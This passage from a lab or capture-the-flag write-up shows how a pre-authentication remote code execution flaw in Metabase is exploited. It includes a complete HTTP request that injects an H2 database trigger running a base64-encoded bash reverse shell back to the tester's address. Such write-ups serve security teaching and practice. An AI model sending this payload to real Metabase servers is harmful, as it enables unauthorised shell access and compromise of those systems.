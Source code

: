Researching Metabase vulnerabilities, we can find [this recent incident disclosure](https://www.metabase.com/blog/security-incident-summary). There is an admission that a private setup-token can actually be viewed upon accessing `/api/session/properties`. When visiting this page, we can find the setup-token for our target as well!

![](Images/setup-token.png)

Next, we can go to `/api/setup/validate` and supply the token, setup an H2 database, and achieve remote code execution! How this is done, exactly, isn't explained well in the disclosure. However, with a little bit of looking, we might find [another article](https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/) that can detail a working payload. 
The payload can be supplied a few ways, but I decided to utilize burpsuite since it has a Pretty function, making the request easier to read and understand. Request payload:
```json
POST /api/setup/validate HTTP/1.1
Host: data.analytical.htb
Content-Type: application/json
Content-Length: 598


{
        "token":"249fa03d-fd94-4d5b-b94f-b4ebf3df681f",
        "details":{
                "is_on_demand":false,
                "is_full_sync":false,
                "is_sample":false,
                "cache_ttl":null,
                "refingerprint":false,
                "auto_run_queries":true,
                "schedules":{},
                "details":{
                        "db":"zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xOTEvODg4OCAwPiYx}|{base64,-d}|{bash,-i}')\n$$--=x",
                        "advanced-options": false,
                        "ssl": true
                },
                "name":"asdf",
                "engine":"h2"
        }
}
```
Request/Response in Burpsuite:
